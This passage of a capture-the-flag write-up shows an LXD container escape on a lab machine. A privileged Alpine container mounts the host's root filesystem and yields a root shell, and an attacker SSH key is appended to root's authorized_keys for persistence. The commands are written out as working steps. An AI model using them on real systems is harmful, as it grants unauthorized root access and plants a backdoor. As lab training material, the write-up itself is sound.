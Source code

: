     loki@Mischief:/dev/shm/.df$ lxc image list
    +--------+--------------+--------+------------------------------+--------+--------+-------------------------------+
    | ALIAS  | FINGERPRINT  | PUBLIC |         DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
    +--------+--------------+--------+------------------------------+--------+--------+-------------------------------+
    | alpine | b20b7859ced4 | no     | alpine v3.8 (20180711_08:23) | x86_64 | 2.49MB | Jul 11, 2018 at 12:26pm (UTC) |
    +--------+--------------+--------+------------------------------+--------+--------+-------------------------------+

    loki@Mischief:/dev/shm/.df$ lxc init alpine priv -c security.privileged=true
    Creating priv
    Error: No storage pool found. Please create a new storage pool.

    loki@Mischief:/dev/shm/.df$ lxd init
    Would you like to use LXD clustering? (yes/no) [default=no]:
    Do you want to configure a new storage pool? (yes/no) [default=yes]:
    Name of the new storage pool [default=default]:
    Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]:
    Create a new BTRFS pool? (yes/no) [default=yes]:
    Would you like to use an existing block device? (yes/no) [default=no]:
    Size in GB of the new loop device (1GB minimum) [default=15GB]: 1
    Would you like to connect to a MAAS server? (yes/no) [default=no]:
    Would you like to create a new network bridge? (yes/no) [default=yes]:
    What should the new bridge be called? [default=lxdbr0]:
    What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
    What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
    Would you like LXD to be available over the network? (yes/no) [default=no]:
    Would you like stale cached images to be updated automatically? (yes/no) [default=yes]
    Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:

    loki@Mischief:/dev/shm/.df$ lxc init alpine priv -c security.privileged=true
    Creating priv

    loki@Mischief:/dev/shm/.df$ lxc config device add priv host-root disk source=/ path=/mnt/root/
    Device host-root added to priv

    loki@Mischief:/dev/shm/.df$ lxc start priv
    loki@Mischief:/dev/shm/.df$ lxc exec priv /bin/sh
    ~ # id
    uid=0(root) gid=0(root)

    /mnt/root/root # ls -l
    -r-------- 1 root root 46 May 17  2018 root.txt



I'll get a shell by dropping rsa keys into
`/mnt/root/root/.ssh/authorized_keys` (I can create a throw-away pair
with `ssh-keygen`):



    /mnt/root/root/.ssh # echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDl5LEqq2Z0dsFtwVRAhYfs3VlLEf7bHRLMcMFt9ND+JezGfUSRciY6jx0Z7V8N5G4CQIPy1V1N+6RAHsR003u8Ygu4MVCVhwEOMe5utYa5SWDqFbf1i8LFKlAgPAT5bGu9lm9wx/isQTnB6
    2hOhOaN+x/IBKpfuavietZG5F23imeTEcLuVnbRS59RTSkhDky21Cn7OmmJgDPFy473hkkAt4WUJemM6QDkneS8siIgkeMBpiB68Blf17XQ9MNAgawCyEzX2QcUiqJ5tdn3Ekcdfyy3qRuJIpNEfMZ6LdGYjfEZNGYNnIKQmHPfyjqw02deI3Zo2nQ1DeboJEZt+ngD root@kali
    '  >> authorized_keys
